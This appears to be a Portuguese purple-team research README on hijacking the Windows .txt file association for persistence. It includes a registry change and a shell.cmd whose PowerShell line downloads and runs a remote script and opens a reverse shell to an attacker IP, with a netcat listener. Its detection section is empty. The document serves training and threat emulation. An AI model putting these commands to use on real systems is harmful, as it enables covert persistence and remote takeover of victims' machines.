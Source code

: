 
<p align="center">
  <img src="./imagens/ISHLOGO.png" alt="Logo do Purple Team" width="300" height="300">
</p>

# CTI Purple Team - Execução Acionada por Evento: Alterar Associação de Arquivo Padrão 

Quando um arquivo é criado em um sistema operacional como o Windows, ele é automaticamente associado a um programa específico que será usado para abrir esse tipo de arquivo quando clicado duas vezes. A execução acionada por evento permite que os usuários personalizem a maneira como os arquivos são abertos, definindo regras específicas para acionar a execução de aplicativos diferentes com base em diferentes eventos.

Neste contexto, exploraremos os conceitos por trás da execução acionada por evento representando o sequestro da extenção ***.txt***, sendo possível executar um aplicativo malicioso antes que o arquivo real seja aberto, gerando um reverse shell na máquina do atacante, a fim de obter persistência.

<p align="center">
  <img src="imagens/Fluxograma_ServiceExecution.png">
</p>

**A priori, para executar o sequestro de extensão, é importante salientar que o atacante já possua o primeiro acesso inicial à máquina alvo, com privilégios administrativos. Portando, já ter realizado a Execução e Escalação de Privilégios na vítima**.

## Contexto

Ao clicar duas vezes em um arquivo ***.txt***, ele é aberto com um ***notepad.exe***. O windows por padrão sabe que para abrir esse tipo de extensão precisa usar o *notepad.exe*.

As seleções de associação de arquivos são armazenados no Registro do Windows e estão listadas em **HKEY_CLASSES_ROOT.[extention]**, no caso dessa pesquisa será listado em **HKEY_CLASSES_ROOT.txt** e, podem ser editados por administradores ou programas que tenham acesso ao Registro ou por administradores usando o utilitário associado, desde que tenham elevação de privilégio de administrador. 

## Emulação de Ameaça - Criação de Arquivo Malicioso Através do Powershell

Há dois locais de registro que definem os manipuladores de extensão, que são mostrados a seguir, e são classificados como: *Global* e *Local*.

<p align="center">
  <img src="imagens/locais-de-registro.png">
</p>

Quando um usuário tenta abrir um arquivo, o sistema operacional verifica os registros locais em (HKEY_CURRENT_USER) para determinar qual programa está designado para lidar com aquela extensão de arquivo. Caso nao houver nenhuma entrada de registro associada, a verificação é feita na árvore de registro global (HKEY_CLASSES_ROOT).

Dependendo dos privilégios do usuário (Administrador ou Usuário Padrão), esses locais de registro podem ser explorados para executar código malicioso, utilizando o manipulador de extensão como um gatilho.

Portanto, podemos observar que o manipulador de extensão ***.txt*** está definido na chave de registro abaixo:
```zsh
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Abaixo exemplifico que o comando responsável por abrir arquivos *.txt* é o *notepad.exe %1*, onde o argumento *%1*, especifica um nome de arquivo qualquer, ou seja, é uma variante para o nome dos arquivos que o bloco de notas deve abrir:

<p align="center">
  <img src="imagens/Editor-de-registro-HKEY.png">
</p>

Supomos que o usuário alvo possua uma arquivo chamado ***test.txt*** em sua área de trabalho, contendo o conteúdo do arquivo ilustrado abaixo:

<p align="center">
  <img src="imagens/arquivo-vitima.png">
</p>

Iremos criar agora um arquivo malicioso que será executado quando o usuário alvo tentar abrir o arquivo chamado test.txt, sendo que com a execução desta têcnica pode ser qualquer arquivo aleatório, apenas seguindo o critério de extenção .txt usado como exemplo nesta pesquisa.

Para isso, criaremos um arquivo em lotes simples do Windows chamado ***shell.cmd*** na maquina do usuário alvo:
```zsh
start notepad.exe %1
powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.140.128/purplecat.ps1');purplecat -c 192.168.140.128 -p 8081 -e cmd.exe"


```
Este comando do PowerShell baixa um script remoto chamado purplecat.ps1 de um local específico e, em seguida, usa esse script para estabelecer uma conexão "backdoor" com uma máquina remota no endereço IP 192.168.140.128 na porta 8081, permitindo que comandos sejam executados cmd.exe nessa máquina.






A partir disso, podemos sequestrar a extensão do arquivo .txt, modificando os dados do valor de registro de Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command para C:\Users\Win-test\Desktop\shell.cmd, local onde nosso arquivo malicioso está gravado.

<p align="center">
  <img src="imagens/mod.registro.png">
</p>

Após a modificação a chave de registro se encontrará da mesma maneira que a imagem a seguir:

<p align="center">
  <img src="imagens/modificado.png">
</p>

A seguir na máquina do atacante, iremos rodar dois comandos no terminal, um para baixar o arquivo aberto pelo usuário e outro para escutar a porta selecionada para sequestrar a sessão do sistema da vítima:

<p align="center">
  <img src="imagens/comando-para-baixar-arquivo.png">
</p>

O comando acima, baixa os arquivos .txt abertos pela vítima. E o comando abaixo utilizaremos o [*NetCat*](https://www.devmedia.com.br/netcat-o-canivete-suico-tcp-ip-revista-infra-magazine-8/26299#:~:text=O%20Netcat%2C%20criado%20em%202004,conectividade%2C%20seguran%C3%A7a%2C%20entre%20outros.) como Listener, ao ser iniciado irá ouvir qualquer conexão realizada na porta **8081/TCP**. 

<p align="center">
  <img src="imagens/comando-escustar-maquina-alvo.png">
</p>

Após realizar todos esses passos, quando o usuário alvo abrir qualquer arquivo .txt e executar o arquivo malicioso simultâneamente, a conexão será realizada com o *listener* na porta **8081/TCP**, mencionada acima.

![Gif-emulação](imagens/gif-emulação.gif)

## Engenharia de Detecção



# Conclusão

Esperamos que você que leu ou assistiu o Webinar, possa ter compreendido a inteligência que trouxemos nesta pesquisa. Qualquer dúvida, é só nos contactar.

## Link do Webinar

Caso você não pode participar do Webinar de apresentação da pesquisa, ou gostaria rever, basta clicar neste [link](https://ishtecnologia.sharepoint.com/sites/CTI-PurpleTeam/_layouts/15/stream.aspx?id=%2Fsites%2FCTI%2DPurpleTeam%2FDocumentos%20Compartilhados%2FVideos%2FCTI%20Purple%20Team%20%2D%20Movimenta%C3%A7%C3%A3o%20Lateral%20Atrav%C3%A9s%20do%20Invoke%2DSMBExec%2Emp4&referrer=StreamWebApp%2EWeb&referrerScenario=AddressBarCopied%2Eview).
